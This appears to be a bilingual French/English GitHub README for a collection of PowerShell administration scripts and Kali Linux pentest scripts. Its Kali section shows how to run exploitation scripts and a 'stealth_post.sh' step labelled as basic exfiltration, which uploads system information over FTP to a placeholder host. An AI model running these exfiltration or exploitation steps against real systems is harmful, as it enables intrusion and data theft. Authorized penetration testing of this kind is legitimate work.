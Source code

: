 # PowerShell Scripts Repository

Ce dépôt contient une collection de scripts PowerShell utiles pour l'administration système et l'automatisation de tâches courantes.

## 📂 Structure du dépôt

```
scripts/
├── linux/             # Scripts Bash pour Linux
│   ├── setup_api.sh
│   ├── pentest_discovery.sh
│   ├── pentest_verification.sh
│   ├── pentest_exploitation.sh
│   ├── scan_wifi.sh
│   └── stealth_post.sh
├── powershell/        # Scripts PowerShell pour Windows
│   ├── DiskUsageReport.ps1
│   ├── Get-SystemInfo.ps1
│   ├── ManageServices.ps1
│   ├── VMManagement.ps1
│   ├── LinkCrawler.ps1
│   ├── TeamsManagement.ps1
│   ├── ExchangeOnlineManagement.ps1
│   ├── UserManagement.ps1
│   └── SecurityCheck.ps1
├── sample_logs.json   # Journalisation fictive pour tests
```

Le fichier `targets.txt` à la racine contient la liste des cibles pour les scripts de pentest. Les scripts Bash utilisent un chemin relatif basé sur leur propre emplacement pour le retrouver, ce qui permet de les lancer depuis n'importe quel répertoire.

## 🛠️ Prérequis / Prerequisites

- **Outils / Tools** : `nmap`, `gvm-cli` et les modules PowerShell nécessaires (Hyper-V, ExchangeOnlineManagement, Teams, etc.).
- **Privilèges / Privileges** : certains scripts exigent des droits administrateur ou root.

## ⚙️ Utilisation rapide

Les scripts peuvent être lancés via PowerShell :

```powershell
# Exemple : afficher les informations système
.\scripts\powershell\Get-SystemInfo.ps1

# Exemple : vérifier l'état d'un service
.\scripts\powershell\ManageServices.ps1 -Action status -ServiceName spooler

# Exemple : lister les machines virtuelles Hyper-V
.\scripts\powershell\VMManagement.ps1 -Action list

# Exemple : démarrer une machine virtuelle
.\scripts\powershell\VMManagement.ps1 -Action start -VMName "TestVM"
# Exemple : lister les equipes Teams
.\scripts\powershell\TeamsManagement.ps1 -Action list
# Exemple : créer un canal Teams
.\scripts\powershell\TeamsManagement.ps1 -Action createchannel -TeamName "Marketing" -ChannelName "Général"
# Exemple : ajouter plusieurs membres depuis un CSV
.\scripts\powershell\TeamsManagement.ps1 -Action bulkadd -TeamName "Marketing" -CsvPath .\users.csv
# Exemple : lister les boîtes aux lettres Exchange Online
.\scripts\powershell\ExchangeOnlineManagement.ps1 -Action list
# Exemple : vérifier les paramètres de sécurité
.\scripts\powershell\SecurityCheck.ps1
```
> **Note :** `ManageServices.ps1` et `UserManagement.ps1` doivent être exécutés dans une session PowerShell élevée.
> **Exemple :** cherchez "PowerShell" dans le menu Démarrer, faites un clic droit puis sélectionnez "Exécuter en tant qu'administrateur".

Chacun des scripts possède des paramètres décrits en début de fichier.

```bash
# Installation de l'API Mistral
# Le script télécharge install.sh séparément et vérifie son empreinte SHA-256
bash scripts/linux/setup_api.sh
# Activer l'environnement virtuel puis lancer l'API
source /opt/mistral-env/bin/activate
python ~/mistral_api.py
```

### Scripts Kali Linux

```bash

# Phase de découverte (scan complet et scripts de vulnérabilités)
bash scripts/linux/pentest_discovery.sh
# Phase de vérification des vulnérabilités
bash scripts/linux/pentest_verification.sh
# Phase d'exploitation (si autorisée)
bash scripts/linux/pentest_exploitation.sh
# Exfiltration basique (si autorisée)
export FTP_USER="utilisateur"
export FTP_PASS="motdepasse"
export FTP_HOST="exemple.com"
export FTP_PATH="uploads/sysinfo.txt"
bash scripts/linux/stealth_post.sh
```

Chaque exécution de `pentest_discovery.sh` crée un sous-dossier horodaté dans `pentest_results`, conservant les résultats des scans précédents.
Each run of `pentest_discovery.sh` outputs to a timestamped subfolder inside `pentest_results`, preserving previous scan results.

## ⚠️ Disclaimer / Avertissement

Pentest scripts (dont `pentest_discovery.sh`, `pentest_verification.sh`, `pentest_exploitation.sh`) et `stealth_post.sh` doivent être utilisés uniquement sur des systèmes pour lesquels vous disposez d'une autorisation explicite.

Pentest scripts and `stealth_post.sh` must only be run on systems where you have been granted explicit permission. Unauthorized use may be illegal.

## License

This project is licensed under the MIT License. See [LICENSE](LICENSE) for details.
